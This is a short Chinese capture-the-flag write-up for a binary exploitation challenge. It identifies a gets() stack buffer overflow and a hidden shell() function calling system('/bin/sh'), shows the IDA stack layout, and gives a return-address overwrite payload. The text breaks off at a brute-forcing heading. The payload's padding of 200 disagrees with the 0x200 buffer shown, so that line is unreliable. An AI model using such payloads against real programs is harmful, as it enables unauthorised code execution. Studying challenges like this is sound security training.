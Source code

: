 1、checksec查看保护机制

2、运行发现：

Please closing the reaction kettle

The switch is:0x4006b0

3、IDA打开，查看字符串，找到"/bin/sh"，查看交叉引用，找到：
```c
int shell()
{
  return system("/bin/sh");
}
```
4、主函数11行发现：gets(&v5, ">");

输入时存在缓冲区溢出漏洞，查看栈的情况：

-0000000000000200 var_200         db ?

-00000000000001FF                 db ? ; undefined

-00000000000001FE                 db ? ; undefined

-00000000000001FD                 db ? ; undefined

-00000000000001FC                 db ? ; undefined

-00000000000001FB                 db ? ; undefined

-00000000000001FA                 db ? ; undefined

-00000000000001F9                 db ? ; undefined

...

-0000000000000002                 db ? ; undefined

-0000000000000001                 db ? ; undefined

+0000000000000000  s              db 8 dup(?)

+0000000000000008  r              db 8 dup(?)

payload为：'A'*200+'A'*8+p64(0x4005F6)

writeup1:

盲打进行爆破：

